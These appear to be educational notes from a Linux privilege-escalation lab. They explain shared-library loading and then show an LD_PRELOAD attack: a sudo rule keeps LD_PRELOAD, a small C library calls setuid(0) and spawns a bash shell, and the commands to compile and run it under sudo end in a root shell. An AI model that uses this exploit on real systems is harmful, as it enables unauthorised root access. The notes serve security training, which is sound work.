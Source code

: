 Two types of libraries exist for compiled code:
- dynamic (.so extension)
- static (.a extension)
Note: on windows, `dll` are the equivalent of shared object

At compile time, static libraries become part of the program and cannot be modified, whereas dynamically linked shared object libraries can.

### Dynamic libraries location
Multiple ways exist to show location of dynamic libraries:
- `-rpath` flag for compilation
- `LD_RUN_PATH`/`LD_LIBRARY_PATH` environment variable
- /`usr/lib` or `/lib`
- `/etc/ld.so.conf`
- `LD_PRELOAD`

To handle shared object with a library, use `ldd`
To check prefered path for shared library (`RUNPATH`), we can run readelf. This path can be exploited if we have run access.


### Example for LD_PRELOAD

Suppose we have the following privileges:
```shell-session
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

As apache is not part of the GTFObin and  `/etc/sudoers` entry specifies the absolute path, we could not be used for privilege escalation with standard methods.
However, we can exploit the `LD_PRELOAD` to run a custom library before running the apache bin.

For example, we write the following:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

which we compile with:

```shell-session
htb_student@NIX02:~$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```
- `-fPIC`: position independent (machine code does not need to be at specific address)

We can the run apache restart with:
```shell-session
htb_student@NIX02:~$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

id
uid=0(root) gid=0(root) groups=0(root)
```